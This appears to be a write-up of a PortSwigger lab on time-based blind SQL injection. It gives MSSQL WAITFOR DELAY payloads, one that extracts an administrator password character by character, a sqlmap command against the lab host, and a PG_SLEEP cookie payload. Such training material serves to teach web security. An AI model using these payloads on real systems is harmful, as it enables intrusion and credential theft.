



# Blind SQL injection with time delays

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

## Definition
In the preceding example, suppose that the application now catches database errors and handles them gracefully. Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:
```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
```
```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

The first of these inputs will not trigger a delay, because the condition 1=2 is false. The second input will trigger a delay of 10 seconds, because the condition 1=1 is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

## Notes
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

**SQL Injection Confirmation and Vendor Discovery**

In view of confirming the vulnerability truly exist, was used the `sqlmap` tool that is capable of confirming the hypothesis and also which DBMS is used at the backend. The result was the following:

```bash
python3 sqlmap.py -u "https://0a5600d604a5baaec0ed4c4b00cc00f8.web-security-academy.net/product?productId=20" --level=2 --cookie="TrackingId=XJo3BoM6Y8PghVAY"
```

  

  

**Exploitation**

To exploit the SQL injection vulnerability and solve the lab, the payload below was crafted and sent to the application alongside the `TrackingId` cookie:

```http
Cookie: TrackingId=Jm3SkiqSvxIY6iXg'+AND+1828%3d(SELECT+1828+FROM+PG_SLEEP(10))+AND+'A'%3d'A;
```

  

  

## Key Words
> blind sql injection, time delay, sqlmap